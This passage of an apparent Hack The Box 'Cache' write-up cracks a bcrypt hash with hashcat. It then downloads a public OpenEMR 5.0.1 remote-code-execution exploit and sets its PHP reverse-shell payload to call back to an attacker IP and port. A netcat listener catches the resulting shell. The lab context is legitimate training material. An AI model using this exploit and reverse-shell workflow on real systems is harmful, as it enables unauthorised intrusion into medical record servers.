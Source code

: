 ## Cracking hash using hashcat
Checking on the [hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes) page, I found the mode for this bcrypt hash in hashcat is 3200.
```console
local@local:~/Documents/htb/boxes/cache$ hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt                                                                        
                                                                                        
$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.:xxxxxx  
```
And the hash cracked successfully.
### Flags used
*   -m to specify mode for the hash

Now that we have a valid credentials, let's run the exploit from the blog.

### Downloading exploit to local box
```console
local@local:~/Documents/htb/boxes/cache$ wget https://raw.githubusercontent.com/musyoka101/OpenEMR-5.0.1-Remote-Code-execution-Vulnerability-Exploit/master/openemr_exploit.py
```
### Modifying the payload with our information
```python
...
username = "openemr_admin" # change this to the the appropriate username
password = "xxxxxx" # change this to the the appropriate password
payload = {'site': 'default', 'mode' : 'save', 'docid' : 'shell.php', 'content' : """<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.15';  # CHANGE THIS
$port = 9001;       # CHANGE THIS
...
url = "http://hms.htb/interface/main/main_screen.php?auth=login&site=default"
```
And change all the information accordingly.

### Setup a netcat listener on port 9001
```console
local@local:~/Documents/htb/boxes/cache$ nc -nvlp 9001
Listening on [0.0.0.0] (family 2, port 9001)
Listening on 0.0.0.0 9001
```
### Running the exploit
```console
local@local:~/Documents/htb/boxes/cache$ python openemr_exploit.py 
HELP MENU
[1] Change the listening IP Address and Create a Listener: Default port 9001
[2] Change the Username and Password to the approrpriate one
[3] Change the URL to the correct one
[4] Execute the script and wait for a shell

[+] Verifying and Performing authentication with credentials provided please be patient
[+] Uploading a reverse shell it will take a minute
[+] You should be getting a shell soon
[+] Success!
```
It ran successfully and if we checked the netcat listening on port 9001,we got a connection back.
```console
local@local:~/Documents/htb/boxes/cache$ nc -nvlp 9001
Listening on [0.0.0.0] (family 2, port 9001)
Listening on 0.0.0.0 9001
Connection received on 10.10.10.188 43024
```